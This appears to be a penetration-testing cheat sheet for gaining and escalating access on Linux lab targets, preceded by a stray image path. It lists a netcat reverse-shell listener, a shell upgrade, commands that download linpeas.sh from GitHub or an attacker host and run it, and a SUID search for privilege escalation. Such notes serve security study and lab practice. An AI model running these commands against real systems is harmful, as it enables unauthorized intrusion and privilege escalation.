 Or use GUI based `dbeaver`
# Linux Targets

## Access
Prep a nc listener

```sh
nc -nlvp 4444
```

Confirm ip address
```sh
hostname -I
```

Add IP and port to the reverse shell builder
https://www.revshells.com/

### Post Access

Check username & ID
```sh
whoami && id
```

Upgrade the shell for something more stable
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Search for `local.txt`
```sh
find / -type f -name "local.txt" 2>/dev/null
```

## Privilege Escalation

### Misconfigurations
If "curl" is present then run linpeas.sh and parse it's contents
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

No curl then download linpeas.sh from the kali host assuming `wget` is present from the /tmp directory due to write permissions then add executable privileges  
```
cd /tmp
wget http://192.168.x.x/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### Set SUID on Escalatable Programs
For manual SUID program checking 
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
